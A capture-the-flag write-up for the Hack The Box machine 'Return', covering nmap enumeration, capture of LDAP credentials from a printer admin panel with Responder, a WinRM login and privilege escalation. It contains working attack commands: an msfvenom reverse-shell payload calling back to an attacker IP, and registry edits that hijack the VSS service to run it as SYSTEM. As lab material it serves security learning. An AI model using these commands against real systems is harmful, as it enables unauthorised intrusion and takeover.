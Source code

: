![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/4aa8cab7-5c58-4168-bec1-e4a9aafa7090)

First enumeration with nmap 

```shell
# Nmap 7.94SVN scan initiated Wed Jan 31 08:59:10 2024 as: nmap -p- --min-rate 1000 -oN fulltcp.nmap -v -Pn 10.129.95.241
Nmap scan report for 10.129.95.241
Host is up (0.14s latency).
Not shown: 65506 closed tcp ports (conn-refused)
PORT      STATE    SERVICE
53/tcp    open     domain
80/tcp    open     http
88/tcp    open     kerberos-sec
135/tcp   open     msrpc
139/tcp   open     netbios-ssn
389/tcp   open     ldap
445/tcp   open     microsoft-ds
464/tcp   open     kpasswd5
593/tcp   open     http-rpc-epmap
636/tcp   open     ldapssl
3268/tcp  open     globalcatLDAP
3269/tcp  open     globalcatLDAPssl
3949/tcp  filtered drip
5985/tcp  open     wsman
9389/tcp  open     adws
47001/tcp open     winrm
49664/tcp open     unknown
49665/tcp open     unknown
49666/tcp open     unknown
49667/tcp open     unknown
49671/tcp open     unknown
49676/tcp open     unknown
49677/tcp open     unknown
49678/tcp open     unknown
49681/tcp open     unknown
49738/tcp open     unknown
61168/tcp filtered unknown

Read data files from: /usr/bin/../share/nmap
# Nmap done at Wed Jan 31 09:00:30 2024 -- 1 IP address (1 host up) scanned in 80.32 seconds
```
first run nmap full port scan to know what ports are open, then  let's run default nmap scripts scan. 

```shell
# Nmap 7.94SVN scan initiated Wed Jan 31 09:09:30 2024 as: nmap -sC -sV -T4 -oN service.nmap -p 53,80,88,135,139,389,445,593,636,3268,3269,3949,5985,9389,47001 -Pn 10.129.95.241
Nmap scan report for 10.129.95.241
Host is up (0.17s latency).

PORT      STATE  SERVICE       VERSION
53/tcp    open   domain        Simple DNS Plus
80/tcp    open   http          Microsoft IIS httpd 10.0
|_http-title: HTB Printer Admin Panel
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
88/tcp    open   kerberos-sec  Microsoft Windows Kerberos (server time: 2024-01-31 08:31:15Z)
135/tcp   open   msrpc         Microsoft Windows RPC
139/tcp   open   netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open   ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
445/tcp   open   microsoft-ds?
593/tcp   open   ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open   tcpwrapped
3268/tcp  open   ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
3269/tcp  open   tcpwrapped
3949/tcp  closed drip
5985/tcp  open   http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open   mc-nmf        .NET Message Framing
47001/tcp open   http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: Host: PRINTER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2024-01-31T08:31:25
|_  start_date: N/A
|_clock-skew: 21m36s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Jan 31 09:10:03 2024 -- 1 IP address (1 host up) scanned in 33.25 seconds
```
now we know what services aare running on those ports. 

## Enumerating port 80 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/de2800c5-fe2d-46a5-847d-7f25e32e1587)

checking the IP addr on a browser, we get a printer admin page. 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/0fd2c226-23c1-405a-b500-69ff7aa61f0c)

navigating to the settings page, we got to see some ldap info. let's try fire responder and replace the domain name with our tun0 IP addr. 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/1a279d88-8e9b-4a38-a70d-694e6e4e4716)

get tun0 ip 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/ab0e7e56-0625-4353-9fda-1754d88f150f)

fire responder 

```shell
sudo responder -I tun0
```

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/887088a2-3feb-4365-87e5-4d85f86d6e91)

replace the domain name with the tun0 IP addr and click update

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/133c2b3f-85a8-49f4-ae5f-4b4990709b45)

boom we got the clear text password

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/f5f59216-6971-4442-a23b-2ad495e27116)

using netexec to check what service we have access to, we can see we can login to winrm.

## Initial Foothold (Winrm)

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/711d9207-ed4f-42be-ba63-49b3654e560b)

we login winrm using the creds


## Privilege Escalation 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/fbe94d1e-b9b6-4ed3-aedd-4a7d50b74167)

running winpeas.exe, we can see we can modify some service registery 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/04c2a2aa-b190-496e-8d9d-75c6ab97b779)

running sc qc to query info about the `Vss` service, we can see it is run by localsystem, let's try to abuse ![Abuse](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#services-registry-modify-permissions)

```shell
┌──(n16hth4wk👽n16hth4wk-sec)-[~/Documents/HTB/Return]
└─$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.34 LPORT=443 -f exe -o reverse.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
Saved as: reverse.exe
```
first generate an msfvenom reverse shell payload. and send to the target.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/d9d38dae-0a68-4cbd-8f93-ae20d835b33c)

```
reg add HKLM\system\currentcontrolset\services\VSS /v ImagePath /t REG_EXPAND_SZ /d C:\Users\svc-printer\Documents\reverse.exe /f
sc start vss
```

use the abuse function and restart the service, boom we got shell as NT Authority 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/c92f7c27-77cf-4ce9-9956-091f06025cf1)

And we are through... easy huh 😉

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/33404ba2-6981-4ed4-84b9-44760c4f25f5)
